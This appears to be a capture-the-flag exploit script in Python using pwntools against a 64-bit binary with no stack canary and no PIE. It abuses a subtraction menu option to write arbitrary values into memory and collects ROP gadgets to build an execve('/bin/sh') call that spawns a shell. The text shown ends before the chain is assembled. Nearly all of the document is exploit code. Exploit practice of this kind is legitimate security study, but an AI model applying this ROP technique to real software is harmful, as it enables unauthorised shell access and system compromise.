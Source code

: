 ```python
# Arch:     amd64-64-little
# RELRO:    Partial RELRO
# Stack:    No canary found
# NX:       NX enabled
# PIE:      No PIE (0x400000)

io = start()

padding_ints = 18

def write(addr, io = io):   
    #extract higher and lower bits
    upperbits = (addr >> 32) & 0xffffffff
    lowerbits = addr & 0xffffffff

    # using the sub function to write 

    n1 = 0x28 + lowerbits
    n2 = 0x28
    io.sendline(b'2')
    io.sendline(bytes(str(n1),'ascii'))
    io.sendline(bytes(str(n2),'ascii'))

    n1 = 0x28 + upperbits
    n2 = 0x28
    io.sendline(b'2')
    io.sendline(bytes(str(n1),'ascii'))
    io.sendline(bytes(str(n2),'ascii'))

    log.info('Wrote the bytes '+hex(addr))

def write_zero(io=io):
    io.sendline(b'2')
    io.sendline(b'256')
    io.sendline(b'256')
    io.sendline(b'2')
    io.sendline(b'256')
    io.sendline(b'256')
    log.info('Wrote 0')


# we want to execute execve
# rax = 59
# rdi = pointer to /bin/sh
# rsi = 0
# rdx = 0

rop = ROP(exe)

# start of data section 0x6c0000 <-- here we will write /bin/sh

# 0x000000000047efa4: mov qword ptr [rdx], rax; pop rbx; ret;

mov_qword_ptr = 0x47efa4
write_addr = 0x6c0000
binsh_string = int.from_bytes(b'/bin/sh','little')

POP_RDI = (rop.find_gadget(['pop rdi', 'ret']))[0]
POP_RSI = (rop.find_gadget(['pop rsi', 'ret']))[0]
POP_RDX = (rop.find_gadget(['pop rdx', 'ret']))[0]
POP_RAX = (rop.find_gadget(['pop rax', 'ret']))[0]
SYSCALL = (rop.find_gadget(['syscall']))[0]

```
